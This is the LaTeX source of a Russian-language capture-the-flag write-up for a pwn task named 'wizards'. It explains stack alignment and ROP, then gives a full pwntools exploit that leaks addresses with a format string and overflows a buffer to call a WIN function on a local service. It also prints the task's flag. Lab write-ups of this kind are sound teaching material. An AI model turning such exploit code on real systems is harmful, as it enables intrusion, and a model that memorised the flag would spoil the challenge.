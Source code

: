 \documentclass[idxtotoc,hyperref,openany,oneside]{files/pwn} %
\begin{document}
Окей, мы определились с нашим пайлоадом: заклинание + нулевой байт + мусор + нужный адрес. Но тут возникает подстава - программа падает. Если погуглить (или знать), то можно найти, что функции из libc требуют выравнивания стека. Проблема. Но можно воспользоваться ROP (Return Oriented Programming) - для начала вернуться из WIN-функции и таким образом выравнять стек. То есть, в конечно итоге, пайлоад будет выглядеть как: заклинание + нулевой байт + мусор + адрес возврата из WIN + адрес WIN.

Сплойт будет выглядеть примерно следующим образом:
\begin{lstlisting}[language=Python, caption=Переполнение буфера с форматной строкой]
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *

context(os='linux', arch='amd64')

BINARY = './wizards'
REMOTE = True

WIN_OFFSET = 0x13f
WIN_RET = 0x42


def leak_win_address(remote):
    remote.recvuntil("Enter your witch name:")
    log.info("Sending format string exploit...")
    remote.sendline("%p|" * 42)

    LEAKS = remote.recvuntil("enter your magic spell:").split("|")
    MAIN = int(LEAKS[-5], 16)
    log.info("Leaked MAIN function address: {}".format(hex(MAIN)))

    WIN = MAIN - WIN_OFFSET
    log.info("Leaked WIN function address: {}".format(hex(WIN)))

    return WIN


def exploit():
    if REMOTE:
        r = remote('127.0.0.1', 1337)
    else:
        r = process(BINARY)

    win_addr = leak_win_address(r)
    win_ret = win_addr + WIN_RET

    payload = "Expelliarmus\x00"
    payload += 'A' * cyclic_find("cnaa")
    payload += p64(win_ret)
    payload += p64(win_addr)

    r.sendline(payload)
    r.interactive()


if __name__ == "__main__":
    exploit()
\end{lstlisting}

Таким образом, получаем флаг \verb|oren_ctf_Berners-Lee!|



\textbf{Теги:} ELF 64bit, C, gadgets, heap\vspace{\baselineskip}
\end{document}

